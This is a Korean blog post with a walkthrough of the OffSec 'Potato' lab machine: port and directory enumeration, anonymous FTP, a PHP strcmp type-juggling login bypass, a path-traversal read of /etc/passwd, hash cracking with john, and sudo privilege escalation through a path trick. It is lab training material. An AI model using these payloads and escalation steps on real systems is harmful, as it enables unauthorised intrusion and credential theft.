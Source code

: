 ```yaml
---
title: "Potato Writeup"
date: 2025-09-02T00:00:00+09:00
# weight: 1
# aliases: ["/first"]
tags: ["pen-testing", "hacking"]
author: "Me"
categories: ["Penetration Testing"]
# author: ["Me", "You"] # multiple authors

showToc: true
TocOpen: false
draft: false
hidemeta: false
comments: true
description: "Offsec PGP lab Potato Writeup"
# canonicalURL: "https://canonical.url/to/page"
disableHLJS: true # to disable highlightjs
disableShare: false
disableHLJS: false
hideSummary: false
searchHidden: false
ShowReadingTime: true
ShowBreadCrumbs: true
ShowPostNavLinks: true
ShowWordCount: true
ShowRssButtonInSectionTermList: true
UseHugoToc: true
cover:
    image: "posts/cover/offsec.png" # image path/url
    alt: "cover-image"

editPost:
    URL: "https://github.com/hynseok/blog/blob/main/content"
    Text: "Suggest Changes" # edit text
    appendFilePath: true # to append file path to Edit link
---
```


## Local DNS 등록하기
``` shell
sudo vi /etc/hosts
```
``` plain text
192.168.138.101 target
```

## Enumeration
### Nmap
```shell
sudo nmap -p- target
```
* `nmap -p-`는 대상 호스트의 모든 TCP 포트(1번부터 65535번까지)를 스캔하라는 의미입니다.

```plain text
Nmap scan report for target (192.168.138.101)
Host is up (0.10s latency).
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
2112/tcp open  kip
```

```shell
sudo nmap -p 2112 target -sC -sV
```
* `2112` 포트에 대한 추가적인 enumeration을 할 수 있습니다.
* `sC` 옵션은 NSE 스크립트를 통한 취약점 스캔이고, `sV` 옵션은 버전 스캐닝 옵션입니다.
```plain text
PORT     STATE SERVICE VERSION
2112/tcp open  ftp     ProFTPD
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| -rw-r--r--   1 ftp      ftp           901 Aug  2  2020 index.php.bak
|_-rw-r--r--   1 ftp      ftp            54 Aug  2  2020 welcome.msg
```

### Gobuster
```shell
gobuster dir -u http://target -w /usr/share/wordlists/dirb/common.txt -z
```
* `dir` 모드는 디렉토리 검색을 의미합니다.
* `-u` 옵션은 스캔할 대상 url을 지정합니다.
* `-w` 옵션은 wordlist의 경로를 지정하는 옵션입니다.
* `-z` 옵션은 터미널 프로그레스 출력을 비활성화하는 옵션입니다.
```plain text
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://target
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 271]
/.htaccess            (Status: 403) [Size: 271]
/.htpasswd            (Status: 403) [Size: 271]
/admin                (Status: 301) [Size: 300] [--> http://target/admin/]
/index.php            (Status: 200) [Size: 245]
/server-status        (Status: 403) [Size: 271]
===============================================================
Finished
===============================================================
```

## Exploitation
### Anonymous ProFTP Server
```shell
ftp target 2112
```
```plaintext
ftp> ls
229 Entering Extended Passive Mode (|||48351|)
150 Opening ASCII mode data connection for file list
-rw-r--r--   1 ftp      ftp           901 Aug  2  2020 index.php.bak
-rw-r--r--   1 ftp      ftp            54 Aug  2  2020 welcome.msg

ftp> get index.php.bak
local: index.php.bak remote: index.php.bak
229 Entering Extended Passive Mode (|||36430|)
150 Opening BINARY mode data connection for index.php.bak (901 bytes)
   901        9.44 MiB/s
226 Transfer complete
```
* ftp 서버에 접근하여 `index.php.bak` 파일을 가져옵니다.
* anonymous 접근시 유저네임을 `anonymous` 로 지정하고, 패스워드는 입력하지 않으면 됩니다.

### PHP Type Juggling and Authentication Bypass

* php에는 두가지 타입의 comparison이 있습니다. 하나는 strict comparison(`===`)이고, 다른 하나는 loose comparison(`==`)입니다.
* string comparator function `strcmp` 에서 string이 아닌 인풋이 입력되면 함수는 `NULL` 을 반환하고, `NULL == 0` loose comparison은 참을 반환하게 됩니다.

``` php
<?php

$pass= "potato"; //note Change this password regularly

if($_GET['login']==="1"){
  if (strcmp($_POST['username'], "admin") == 0  && strcmp($_POST['password'], $pass) == 0) {
    echo "Welcome! </br> Go to the <a href=\"dashboard.php\">dashboard</a>";
    setcookie('pass', $pass, time() + 365*24*3600);
  }else{
    echo "<p>Bad login/password! </br> Return to the <a href=\"index.php\">login page</a> <p>";
  }
  exit();
}
?>
```
* 위 php파일을 보면 `strcmp` 함수의 반환값을 loose comparator로 0과 비교하고 있습니다.

``` plain text
POST /admin/index.php?login=1 HTTP/1.1
...

username=admin&password[]=""
```
* Burp를 통해 password에 array를 전달합니다.

``` plain text
POST /admin/dashboard.php?page=log HTTP/1.1
...


file=../../../../../../../../../../etc/passwd
```
* log파일을 다운로드 할 수 있는 기능이 있습니다. LFI(Local File Inclusion)을 통해 /etc/passwd 파일을 출력합니다.

```shell
cat pass.txt
webadmin:$1$webadmin$3sXBxGUtDGIFAcnNTNhi6/:1001:1001:webadmin:/home/webadmin:/bin/bash
```
```shell
john pass.txt

Loaded 1 password hash (md5crypt, crypt(3) $1$ (and variants) [MD5 256/256 AVX2 8x3])
Will run 6 OpenMP threads
Proceeding with single, rules:Single
Press 'q' or Ctrl-C to abort, almost any other key for status
Almost done: Processing the remaining buffered candidate passwords, if any.
Proceeding with wordlist:/usr/share/john/password.lst
dragon           (webadmin)
1g 0:00:00:00 DONE 2/3 (2025-09-01 22:56) 16.66g/s 24200p/s 24200c/s 24200C/s 123456..keith
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```
* webadmin의 passwd row를 john을 통해 해시 크래킹을 시도합니다.
* 결과로 나온 패스워드는 `dragon` 입니다.

## Privilege Escalation


```
sudo -l
```
* sudo -l옵션을 통해 해당 사용자가 사용할 수 있는 명령어를 확인합니다.

```shell
User webadmin may run the following commands on serv:
    (ALL : ALL) /bin/nice /notes/*
```


```shell
echo "/bin/bash" > bash.sh
chmod +x bash.sh
sudo /bin/nice /notes/../home/webadmin/bash.sh
```
* 사용자의 홈 디렉토리에 bash를 실행하는 스크립트를 생성한 뒤, 파일 경로를 우회하여 스크립트를 실행합니다.

